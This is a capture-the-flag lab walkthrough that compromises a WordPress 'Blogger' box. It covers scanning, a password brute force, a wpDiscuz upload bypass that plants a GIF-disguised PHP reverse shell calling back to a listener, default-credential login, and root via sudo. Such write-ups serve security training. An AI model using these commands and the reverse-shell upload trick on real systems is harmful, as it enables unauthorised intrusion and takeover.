





# Nmap
```bash
nmap -A -T4 -p 80,22 --open 192.168.225.217

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 95:1d:82:8f:5e:de:9a:00:a8:07:39:bd:ac:ad:d3:44 (RSA)
|   256 d7:b4:52:a2:c8:fa:b7:0e:d1:a8:d0:70:cd:6b:36:90 (ECDSA)
|_  256 df:f2:4f:77:33:44:d5:93:d7:79:17:45:5a:a1:36:8b (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Blogger | Home
|_http-server-header: Apache/2.4.18 (Ubuntu)
```

# Gobuster

```bash
gobuster dir -u http://192.168.225.217 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

#Results
images               (Status: 301) [Size: 319] [--> http://192.168.225.217/images/]
assets               (Status: 301) [Size: 319] [--> http://192.168.225.217/assets/]
css                  (Status: 301) [Size: 316] [--> http://192.168.225.217/css/]
js                   (Status: 301) [Size: 315] [--> http://192.168.225.217/js/]

#Fished around and landed here: http://192.168.225.217/assets/fonts/blog/

# Appears to be a wordpress site
```


## Feroxbuster
```bash
feroxbuster -u http://192.168.225.217 --scan-dir-listings -E
```

## WPScan

```bash
wpscan --url http://192.168.225.217/assets/fonts/blog/ \
  --enumerate u,p,t,cb,dbe \
  --plugins-detection aggressive

#User jm3s Found
#User j@m3s Found
# Poss vuln. Plugins
wpdiscuz
akismet
```

## WPScan Bruteforce (Failed)
```bash
wpscan --url http://192.168.141.121/wordpress \
  --usernames jm3s \
  --passwords /usr/share/wordlists/rockyou.txt
```
## /etc/hosts update
```bash
#Found the name: blogger.pg instead of hte IP adress while loading the webpage. Add to /etc/hosts/
```


## Searchsploit

```bash
searchsploit wpdiscuz

#Results
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                                                                                                                                           |  Path
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Wordpress Plugin wpDiscuz 7.0.4 - Arbitrary File Upload (Unauthenticated)                                                                                                                                                                                                                | php/webapps/49962.sh
WordPress Plugin wpDiscuz 7.0.4 - Remote Code Execution (Unauthenticated)                                                                                                                                                                                                                | php/webapps/49967.py
Wordpress Plugin wpDiscuz 7.0.4 - Unauthenticated Arbitrary File Upload (Metasploit)                                                                                                                                                                                                     | php/webapps/49401.rb
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results

#Download file upload
searchsploit -m 49962.sh
```
# Inspect file
```bash
Usage: exploit.sh [IP] [/index.php/2021/06/06/post]\n
```


```bash
#Could not figure it out.
```

## Reinspect website and found upload area


```bash
#Allows picture upload. Create reverse shell
#Create picture
(echo 'GIF89a'; cat /usr/share/webshells/php/php-reverse-shell.php) | sudo tee /usr/share/webshells/php/gif/php-reverse-shell.gif.php > /dev/null

#Edit File
sudo nano /usr/share/webshells/php/gif/php-reverse-shell.gif.php

#Edit these fields
$ip = 'YOUR_IP';
$port = 4444;

#Start Listener
nc -lvnp 4444

#Upload file and click on picture
```



## Enumerate Users
```bash
cd /home

ls

#Results
james
ubuntu
vagrant
```

## Switch user Vagrant
```bash
su vagrant
password:vagrant

#Success
```

## Enumerate

```bash
sudo -l 

#Results
(ALL) NOPASSWD: ALL
```

## Priv Esc.
```bash
sudo su

#Root Obtained. Grab Proof.txt
```